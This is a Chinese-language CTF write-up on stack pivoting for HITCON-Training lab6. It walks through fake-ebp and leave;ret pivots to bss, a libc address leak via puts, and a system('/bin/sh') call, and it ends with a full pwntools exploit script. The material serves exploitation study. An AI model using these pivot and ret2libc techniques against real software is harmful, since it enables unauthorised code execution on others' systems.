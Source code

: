 # 栈迁移学习附例题

## 介绍

栈迁移可以解决栈溢出后，没有足够空间写入 payload 的情况。主要通过 伪造 ebp ，并利用 leave|ret gadget 劫持栈到预设位置。

> leave | ret == mov ebp,esp;pop ebp;ret

## [HITCON-Training-master lab6](https://github.com/scwuaptx/HITCON-Training)

### 题目介绍

程序为32 位打开 NX 防护：

![](https://cdn.jsdelivr.net/gh/skyedai910/Picbed/img/20200305221400.png)

运行程序，提示输入，输入后退出程序：

![](https://cdn.jsdelivr.net/gh/skyedai910/Picbed/img/20200305221521.png)

main 函数 read 存在栈溢出，可溢出长度为 0x40 - 0x28 ：

```python
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-28h]

  if ( count != 0x539 )
    exit(1);
  ++count;
  setvbuf(_bss_start, 0, 2, 0);
  puts("Try your best :");
  return read(0, &buf, 0x40u);		//栈溢出
}
```

在可以溢出操作的空间很小，可以考虑使用栈迁移，当然你能找到超短的 shellcode 也可以。能不能进行 ROP ，emmm 需要修改 count 防止退出程序。那就用栈迁移吧。

### **利用思路**

*我们可以利用溢出 eip 调用 read 在劫持前，写入伪造栈空间内容（执行什么命令、有什么变量、伪造栈的ebp等）*

伪造 ebp 劫持当前栈到另外一个地方 stack 1 ；然后在 stack 1 泄露出 libc 基地址，并再次伪造 ebp 劫持当前栈到另外一个地方 stack 2；调用 system('/bin/sh') 。

**第一步**

我选择将当前栈 stack 0 ，劫持到内存地址为 bss+0x200 的stack 1。为什么是 bss+0x200 ？一开始劫持到 bss 报错，然后就选择高点的地址就成功了。

我们迁移栈之后，栈总不能是空的，什么都不执行就退出了，所以在这一步需要控制 stack 0 的 eip 调用 read ，写入 stack 1 的栈数据。

大致利用思路里说了，需要第二次迁移栈，所以我们也需要伪造 stack 1 ，以实现在将 stack 1 劫持到 stack 2 。

payload 0 构造如下：

```python
payload = 'a' * 0x28 #填充
payload += stack_1 #伪造ebp
payload += read_plt #调用read
payload += leave_ret #利用gadget将ebp赋值esp完成栈迁移
payload += p32(0)+p32(stack_1)+p32(0x100) #read传参
```

注意：输入 payload 0 依然在 stack 0 ，停在 read 等待输入状态。我们输入 payload 1 后才栈迁移到 stack 1 。

**第二步**

在这一步需要泄露 libc 基地址，调用一个有输出功能的函数，把某一个函数的真实地址输出出来，然后计算 libc 的偏移。

这一步还需要进行一次栈迁移，伪造的 ebp 已经在迁移进入 stack 1 前，已经在stack 0 通过 read 写入到 stack 1 的 ebp 位置，所以只需要调用 leave|ret gadget 就可以进行栈迁移。

既然进行栈迁移，就还是需要提前写入 stack 3 的数据，就需要再次调用 read 。payload 1 先提供一个用于写入stack 2 的 read 函数入口，至于 payload 2 在第三步分析。

payload 1 构造如下：

```python
payload = p32(stack_2) #伪造ebp
payload += p32(puts_plt) #调用输出函数
payload += p32(pop_ret) #返回
payload += p32(puts_got) #函数真实地址
payload += p32(read_plt) 
payload += p32(leave_ret) #利用gadget将ebp赋值esp完成栈迁移
payload += p32(0) + p32(stack_2) + p32(0x100) #read传参
```

**第三步**

这一步不需要再栈迁移，因此不需要再伪造 ebp ，用 0x8 数据填充占位即可。最终目的是执行 system('/bin/sh') ，system 地址可以通过查询 libc 后加上偏移得到，/bin/sh 获取有多种方法。可以在 libc 查，可以再次调用 read 输入。

payload 2 构造如下：

```python
payload = p32(0x11111111) #ebp占位
payload += p32(read_plt)
payload += p32(pop_ret) #返回
payload += p32(0) + p32(stack_1) + p32(0x100) #传参，将/bin/sh存储在stack1
payload += p32(system_addr)
payload += p32(0x22222222) #system压栈返回地址，垃圾填充即可
payload += p32(stack_1) #/bin/sh\0 地址
```

**栈空间图**

用 read 从 stack esp 写入的时候，各个指令顺序与计算机写入方式有关。假如 read  0x10 数据，会从输入地址向高地址写入 0x10 空间。写入一般为小端序，简单点就是写在前面的，存在后面。输入 ABCD ，录入 0x64636261 。所以 read 中填入命令越前地址越高越先被执行

![](https://cdn.jsdelivr.net/gh/skyedai910/Picbed/img/20200307000025.png)

**完整exp**

```python
#!/usr/bin/env python
from pwn import*
context.log_level="debug"
 
p = process('./migration')
lib = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('./migration')
 
read_plt = elf.symbols['read']
puts_plt = elf.symbols['puts']
puts_got = elf.got['puts']
read_got = elf.got['read']
buf = elf.bss() + 0x500
buf2 = elf.bss() + 0x400
 
pop1ret = 0x804836d
pop3ret = 0x8048569
leave_ret = 0x08048418
 
puts_lib = lib.symbols['puts']
system_lib = lib.symbols['system']
 
p.recv()
 
log.info("*********************change stack_space*********************")
junk = 'a'*0x28
payload = junk + p32(buf) + p32(read_plt) + p32(leave_ret) + p32(0) + p32(buf) + p32(0x100)
p.send(payload)
 
 
log.info("*********************leak libc memory address*********************")
 
payload1 = p32(buf2) + p32(puts_plt) + p32(pop1ret) + p32(puts_got) + p32(read_plt) + p32(leave_ret)
payload1 += p32(0) + p32(buf2) + p32(0x100)
p.send(payload1)
 
puts_add = u32(p.recv(4))
lib_base = puts_add - puts_lib
print "libc base address-->[%s]"%hex(lib_base)
system_add = lib_base + system_lib
print "system address -->[%s]"%hex(system_add)
 
log.info("*********************write binsh*********************")
payload3= p32(buf) + p32(read_plt) + p32(pop3ret) + p32(0) + p32(buf) + p32(0x100) + p32(system_add) + 'bbbb' + p32(buf)
p.send(payload3)
p.send("/bin/sh\0")
p.interactive()
```


